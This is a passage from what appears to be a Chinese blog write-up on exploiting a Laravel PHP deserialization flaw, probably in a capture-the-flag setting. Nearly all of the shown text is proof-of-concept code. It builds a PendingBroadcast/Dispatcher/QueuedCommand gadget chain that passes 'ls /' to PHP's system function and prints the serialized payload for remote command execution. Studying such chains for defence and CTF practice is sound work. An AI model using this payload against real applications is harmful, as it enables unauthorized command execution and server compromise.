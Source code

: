 ```php
        protected $name="feng";
    }
}

namespace{

    use Illuminate\Broadcasting\PendingBroadcast;

    echo urlencode(serialize(new PendingBroadcast()));
}

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210402165528302.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)




换了一个poc：
```php
<?php
namespace Illuminate\Broadcasting{

    use Illuminate\Bus\Dispatcher;
    use Illuminate\Foundation\Console\QueuedCommand;

    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct(){
            $this->events=new Dispatcher();
            $this->event=new QueuedCommand();
        }
    }
}
namespace Illuminate\Foundation\Console{
    class QueuedCommand
    {
        public $connection="ls /";  //此处参数
    }
}
namespace Illuminate\Bus{
    class Dispatcher
    {
        protected $queueResolver="system";  //此处函数

    }
}
namespace{

    use Illuminate\Broadcasting\PendingBroadcast;

    echo urlencode(serialize(new PendingBroadcast()));
}
```

---